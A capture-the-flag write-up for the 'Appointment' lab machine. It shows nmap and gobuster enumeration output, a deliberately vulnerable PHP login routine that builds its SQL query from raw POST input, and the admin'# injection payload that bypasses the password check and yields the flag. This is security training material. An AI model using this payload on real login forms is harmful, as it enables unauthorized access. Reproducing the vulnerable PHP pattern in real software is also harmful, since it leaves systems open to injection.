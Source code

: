 # Appointment

TARGET MACHINE IP ADDRESS
10.129.183.69

----

## Nmap, Initial

```
nmap -Pn 10.129.183.69
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 13:04 EST
Nmap scan report for 10.129.183.69
Host is up (0.052s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds


nmap -Pn -p 1-10000 10.129.183.69
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 13:04 EST
Nmap scan report for 10.129.183.69
Host is up (0.055s latency).
Not shown: 9999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 5.24 seconds

```

## Nmap, Details

```
nmap -Pn -sS -sV -sC -O -p 80 10.129.183.69
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 13:05 EST
Nmap scan report for 10.129.183.69
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.4 (93%), Linux 3.1 (92%), Linux 3.2 (92%), Linux 4.15 - 5.8 (90%), Linux 3.10 (90%), ASUS RT-N56U WAP (Linux 3.4) (90%), Linux 3.16 (90%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 seconds
```

## Browser

![Pasted image 20240221120753](https://github.com/GregKedrovsky/Hacking/assets/26492233/31ed6458-c088-4f4f-9df8-f21d514c8956)

## Directory Busting

```
gobuster dir -r -u 10.129.183.69 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.183.69
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 200) [Size: 1124]
/fonts                (Status: 200) [Size: 1348]
/images               (Status: 200) [Size: 1132]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 278]
/vendor               (Status: 200) [Size: 2576]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

## SQL Injection

### Based on the following PHP loginroutine:

```
<?php
mysql_connect("localhost", "db_username", "db_password"); 
# Connection to the SQL Database.

mysql_select_db("users"); 
# Database table where user information is stored.

$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; # User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.

$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.

$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.

if ($count==1){
# Checks if there's at least 1 result, and if yes:
$_SESSION['username'] = $username; # Creates a session with the specified $username.
$_SESSION['password'] = $password; # Creates a session with the specified $password.
header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
	header("location:login.php");
	# No redirection, as the login failed in the case the $count variable
	# is not equal to 1, HTTP Response code 200 OK.
}
?>
```

Notice the `$sql` variable. This is the SQL query statement built from the two user inputs on the home screen.

```
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; # User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
```

Problem: The SQL query would be complete and valid if we ended it at '$username`
- We can do that by adding a `' #` to the end of the `admin` username (effectively commenting everything else out on the line and providing a truncated query statement with no password.)
- I tried it with a blank password, but it failed (because the `$password` variable is before the query statement in the PHP code above) .
- Put anything in the password field, and it works.

![Pasted image 20240221124943](https://github.com/GregKedrovsky/Hacking/assets/26492233/06c3edb9-4274-41c4-9ba4-a21eea1282f2)

That results in the following SQL query (assuming "x" for the password):
```
SELECT * FROM users WHERE username='admin'#' AND password='x'
# The password check is effectively commented out
```

The following page loads: 

![Pasted image 20240221125036](https://github.com/GregKedrovsky/Hacking/assets/26492233/c4912336-4e5d-4778-8780-a5e623d575c2)

Congratulations!
Your flag is: e3d0796d002a446c0e622226f42e9672

![Pasted image 20240221125154](https://github.com/GregKedrovsky/Hacking/assets/26492233/011acdca-2517-4b83-92b3-477667fb4861)


